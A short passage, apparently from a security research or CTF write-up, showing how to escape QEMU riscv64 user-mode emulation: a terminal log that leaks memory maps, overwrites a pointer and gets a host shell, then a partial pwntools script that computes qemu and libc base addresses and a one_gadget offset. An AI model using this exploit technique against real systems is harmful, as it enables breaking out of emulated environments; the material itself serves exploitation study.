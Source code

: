 ```bash
> m
addr: 0x561a14c5e000
len : 0x0061000
prot: 6
0x561a14c5e000,61000,6
read or wirte or mprotect or leak?
> l
561a145a7000-561a1463e000 r--p 00000000 00:37 5094                       /mnt/hgfs/riscv/memtest/qemu-riscv64
561a1463e000-561a14832000 r-xp 00097000 00:37 5094                       /mnt/hgfs/riscv/memtest/qemu-riscv64
561a14832000-561a14c5d000 r--p 0028b000 00:37 5094                       /mnt/hgfs/riscv/memtest/qemu-riscv64
561a14c5e000-561a14cbf000 rw-p 006b6000 00:37 5094                       /mnt/hgfs/riscv/memtest/qemu-riscv64
561a14cbf000-561a14ceb000 rw-p 00717000 00:37 5094                       /mnt/hgfs/riscv/memtest/qemu-riscv64
7f2f1942f000-7f2f19454000 r--p 00000000 08:05 1050755                    /usr/lib/x86_64-linux-gnu/libc-2.31.so
read or wirte or mprotect or leak?
> r
addr: 0x561a14cbe1c0
data: 7f2f1954ab00
read or wirte or mprotect or leak?
> w
addr: 0x561a14cbe1c0
data: 0x7f2f19515c7e
OK
read or wirte or mprotect or leak?
> m
addr: 0x561a14c5e000
len : 0x0061000
prot: 6
0x561a14c5e000,61000,6
$ ls
libc-2.31.so  qemu-riscv64.id0	qemu-riscv64.id2  qemu-riscv64.til  test.c     testmips
qemu-riscv64  qemu-riscv64.id1	qemu-riscv64.nam  test		    testaarch
$ 
```

python getshell成功：

```python
from pwn import *
io = process(["qemu-riscv64","./test"])

sla       = lambda delim,data     :  (io.sendlineafter(delim, data))
mprotect  = lambda addr,len,prot  :  (sla("> ","m"),sla(":",hex(addr)),sla(":",hex(len)),sla(":",str(prot)))
write     = lambda addr,data      :  (sla("> ","w"),sla(":",hex(addr)),sla(":",hex(data)))
leak      = lambda                :  (sla("> ","l"))

leak()
data = io.recvuntil('[stack]')
data = str(data).replace("\\n","\n").splitlines()
for i in data:
    if "r--p 00000000" not in i: continue
    if "/usr/local/bin/qemu-riscv64"     in i: qemu_base = int(i[0:12],16)
    if "/usr/lib/x86_64-linux-gnu/libc-" in i: libc_base = int(i[0:12],16)

log.success(hex(qemu_base))
log.success(hex(libc_base))

one_gadget     = libc_base + 0x0e6c7e
```